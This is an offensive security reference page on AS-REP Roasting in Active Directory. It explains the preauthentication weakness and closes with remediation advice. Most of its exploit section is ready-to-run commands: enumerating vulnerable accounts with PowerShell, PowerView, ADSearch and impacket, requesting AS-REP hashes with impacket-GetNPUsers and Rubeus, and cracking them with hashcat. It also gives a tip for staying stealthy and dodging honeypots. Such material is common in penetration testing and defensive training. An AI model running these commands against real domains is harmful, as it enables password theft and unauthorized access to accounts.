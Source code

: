 # AS-REP Roasting
---

## Vulnerability

AS-REP Roasting consists in identifying domain users that have the attribute `DONT_REQ_PREAUTH` enabled. With such an attribute, anyone can send an AS-REQ request on behalf of these users and receive an AS-REP message. This message contains data encrypted with the user key, derived from its password. Therefore, it's possible to crack offline the password of the corresponding user.

This attack can be performed without any initial domain account. Nevertheless, a domain account is needed to list domain accounts vulnerable to AS-REP Roasting. Without, you'll have to guess them.

## Prerequisites

- Low privileged domain account (to enumerate vulnerable domain users).
- Target must be a domain user with “*Do not require Kerberos preauthentication*” (DONT_REQ_PREAUTH) enabled.

## Exploit

To enumerate vulnerable accounts, use following commands. It's also possible to do with with [BloodHound](https://github.com/BloodHoundAD/BloodHound).

```bash
# Using ActiveDirectory PowerShell module from a domain joined computer.
Get-ADUSer -Filter 'DoesNotRequirePreAuth -eq $True'

# Using PowerView from a domain joined computer.
Get-DomainUser -PreauthNotRequired -verbose

# Using ADSearch.
ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname

# Using Impacket.
impacket-GetNPUsers -dc-ip $DomainControllerIP $DomainName/$Username:$Password
```

If domain contains accounts vulnerable to AS-REP roasting, request the AS-REP for concerned domain users on a targeted domain controller with [Rubeus](https://github.com/GhostPack/Rubeus) or [impacket-GetNPUsers](https://github.com/fortra/impacket).

```bash
# From Kali.
impacket-GetNPUsers -dc-ip $DomainControllerIP -request -outputfile hashes.asreproast $DomainName/$Username:$Password

# From a domain joined computer.
.\Rubeus.exe asreproast /outfile:hashes.asreproast /nowrap

# From a Windows computer not joined to the domain.
.\Rubeus.exe asreproast /creduser:$DomainName\$Username /credpassword:$Password /domain:$DomainName /dc:$DomainControllerIP /outfile:hashes.asreproast /nowrap
```

{: .warning }
> If you want to be more stealthy and avoid honey pots, request one user at the time. For instance, with `Rubeus`, add `/user:$target` option.

Then, crack the AS-REP hash. You can use [hashcat](https://github.com/hashcat/hashcat) to do that.

```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

## Recommendations

- [ ]  Disable “*Do not require Kerberos preauthentication*” for domain users when it’s technically possible.
- [ ]  If disabling “*Do not require Kerberos preauthentication*” isn’t technically possible, enforce strong password for involved domain users so it makes it hard - even impossible - to crack them.
